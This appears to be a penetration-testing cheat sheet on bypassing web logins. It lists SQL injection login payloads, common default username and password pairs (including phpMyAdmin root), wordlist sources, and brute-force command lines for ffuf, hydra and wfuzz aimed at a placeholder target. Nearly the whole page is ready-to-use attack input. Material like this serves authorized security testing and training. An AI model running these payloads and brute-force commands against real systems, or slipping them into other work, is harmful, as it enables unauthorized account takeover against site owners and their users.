 ```yaml
---
title: Web Login Bypass
desc: 
tags: [Burp Suite, Ffuf, Login, SQLi, Web, Wfuzz]
alts: [API-Pentesting]
render_with_liquid: false
---
```


## 1. Use SQL Injections

```
admin'--
admin'#
admin' or 1=1--
admin' or '1'='1
admin' or 1=1#
```

<br />

## 2. Use Default Credentials

1. **Commonly Default Credentials**

    ```
    admin:admin
    admin:password
    admin:password1
    admin:password123
    administrator:password
    administrator:password1
    administrator:password123
    ```

2. **PHPMyAdmin**

    ```sh
    root:(null)
    root:password
    ```

<br />

## 3. Brute Force Credentials

1. **Prepare Wordlists**

    - **Rockyou**

        It is often located in **"/usr/share/wordlists/rockyou.txt"** in Linux.

    - **[SecLists](https://github.com/danielmiessler/SecLists){:target="_blank"}**

        It is often located in **"/usr/share/seclists"** in Linux.

    - **[CeWL](https://github.com/digininja/CeWL){:target="_blank"}**

        Generate the custom wordlist from the target web page.
    
        ```sh
        cewl https://vulnerable.com > scraped_words.txt
        ```

2. **Brute Force using Tools**

    - **Ffuf**

        ```sh
        # -fc: Filter HTTP status code
        ffuf -s -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401
        ```

    - **Hydra**

        ```sh
        # Cracking username
        hydra -L usernames.txt -p password vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
        # Cracking password
        hydra -l username -P passwords.txt vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"

        # HTTPS (https-post-form)
        hydra -L usernames.txt -P passwords.txt vulnerable.com https-post-form "/login:username=^USER^&password=^PASS^:Username or password is incorrect"

        
        # Cracking the Authorization or WWW-Authenticate in the request header.
        hydra -L usernames.txt -P passwords.txt <target-ip> http-get
        ```

    - **Wfuzz**

        ```sh
        # Cracking username
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" https://vulnerable.com/login
        # Cracking password
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" https://vulnerable.com/login

        # -- Options --------------------------------------------------------------------------------------------

        # --hc: Hide the specific status code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --hc 302 http://vulnerable.com/login
        # --hh: Hide the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --hh 783 http://vulnerable.com/login

        # --sc: Show the specific statuc code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --sc 302 http://vulnerable.com/login
        # --sh: Show the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --sh 1214 http://vulnerable.com/login
        ```